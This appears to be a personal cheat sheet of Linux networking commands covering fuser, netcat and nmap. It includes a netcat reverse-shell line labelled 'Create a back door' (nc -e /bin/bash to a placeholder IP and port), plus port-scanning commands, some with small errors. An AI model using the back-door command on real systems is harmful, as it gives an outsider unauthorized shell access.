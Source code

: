 To identify which process is using something.

```bash
# Which program is using the TCP 80 port
sudo fuser -v -n tcp 80
```

## nc or netcat

`nc` is a TCP/IP swiss army knife. To install the `nc` command you need to install `netcat`

To create a new TCP connection

```bash
nc localhost 8888
```

To send some data when creating a new connection

```bash
echo -n "How's it going?" | nc localhost 8888
```

To listen to a specific port

```bash
# Listen on a port, Verbose mode
nc -l -p <PORT> -v
nc -zvw10 192.168.0.1 22
nc -lpv <PORT> -n <IP> # Did not worked the last time.
```

Create a back door

```bash
nc -e /bin/bash <IP> <PORT>
```

Checking ports

```bash
# nc -v -n -z -w1 <DomainName> <StartPortNo-EndPortNo>
# For instance, in our example, we had the following:
nc -v -n -z w1 192.168.133.128 1-100

# Listen to UDP
nc -u <IP> <PORT>
```

## nmap

It is a tool for analyzing the network of the target. The point is that you do not have to be in this machine to use the command.

```bash
# To analyze the local host network
nmap localhost
# To anaylyze the current network
nmap 192.168.1.2/24
```
